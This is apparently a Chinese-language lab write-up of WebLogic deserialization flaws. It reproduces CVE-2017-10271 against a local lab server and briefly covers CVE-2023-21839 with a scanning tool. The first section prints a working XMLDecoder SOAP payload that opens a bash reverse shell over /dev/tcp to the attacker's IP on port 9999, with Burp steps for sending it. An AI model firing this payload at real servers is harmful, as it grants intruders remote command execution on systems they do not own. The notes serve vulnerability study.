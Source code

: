 # weblogic反序列化

> CVE-2017-10271	

### 环境准备

- 靶场ip:`192.168.2.254:7001`
- 攻击机ip:`192.168.230.240`

![image-20241026111303547](./assets/image-20241026111303547.png)

### 漏洞复现

![image-20241026111358572](./assets/image-20241026111358572.png)

- 访问url`http://192.168.2.254:7001/wls-wsat/CoordinatorPortType`

![image-20241026112013668](./assets/image-20241026112013668.png)

- 使用`burp`进行抓包,修改请求方法,构造poc(`需要修改为自己的攻击机ip`)

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.230.240/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

- 修改为`post`请求,`content-type`修改为`text/xml`

![image-20241026112225032](./assets/image-20241026112225032.png)

- 使用攻击机监听`9999`端口,然后发送数据包

![image-20241026112443017](./assets/image-20241026112443017.png)

### 漏洞原理

- `Weblogic Server WLS`组件远程命令执行漏洞,主要是由`wls-wsat.war`触发,通过构造`xml格式`的请求,在解析过程中导致`XMLDecodeer`反序列化漏洞

****

# weblogic

> CVE-2023-21839

### 环境准备

![image-20241026113631608](./assets/image-20241026113631608.png)

### 攻击手法

- 因为大致攻击流程都是和上面类似,这个就用工具进行攻击
- 工具是`onefox工具箱`中的`weblogic`漏洞检测工具

<img src="./assets/image-20241027131506896.png" alt="image-20241027131506896" style="zoom:33%;" />

- 执行命令

<img src="./assets/image-20241027131606850.png" alt="image-20241027131606850" style="zoom:33%;" />

****